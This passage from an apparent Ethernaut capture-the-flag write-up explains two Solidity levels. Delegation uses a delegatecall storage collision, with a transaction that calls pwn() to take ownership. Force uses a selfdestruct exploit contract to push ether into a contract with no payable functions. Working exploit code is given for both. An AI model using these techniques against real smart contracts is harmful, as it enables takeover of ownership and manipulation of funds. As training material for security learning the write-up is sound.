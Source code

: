We can see that `fallback()` function in the contract makes a delegate call to other contract, in a delegate call the same msg.sender, msg.value and the storage will be used while the execution of the code.

Solidity allocates slots for the variables in the order as they appear, since the same storage is used in the delegate call if we try to update the slot 0 (owner) in the `Delegate` contract, underhoods it updates the slot 0 (owner) of the `Delegation` contract. As the storage of Delegation contract will be used.

> #### Solution:
> We have to call the `pwn()` function from the Delegation contract to update the owner.
> ```sol
> await sendTransaction({
>     from: player,
>     to: instance,
>     data: web3.eth.abi.encodeFunctionSignature("pwn()")
> });
> ```

<hr>

## 7 Force
We need to deposit funds to this contract to complete this level.
#### Source:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

There are no functions that we could use to send funds to this contract. One way to send funds to this contract is via `selfdestruct`. We can have an exploit contract which will get self destructed and all the funds in exploit can be sent to any address specified.

#### Solution:
- First we deploy our expolit contract.
- Then we transfer some funds to our exploit.
- Then we call the `selfDestruct` function with our contract instance address as a parameter, that will sucessfully send funds to our contract.



```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

contract forceExploit {
    
    function selfDestruct(address payable _address) payable public {
        selfdestruct(_address);
    }

    receive() external payable {
    }

}
```

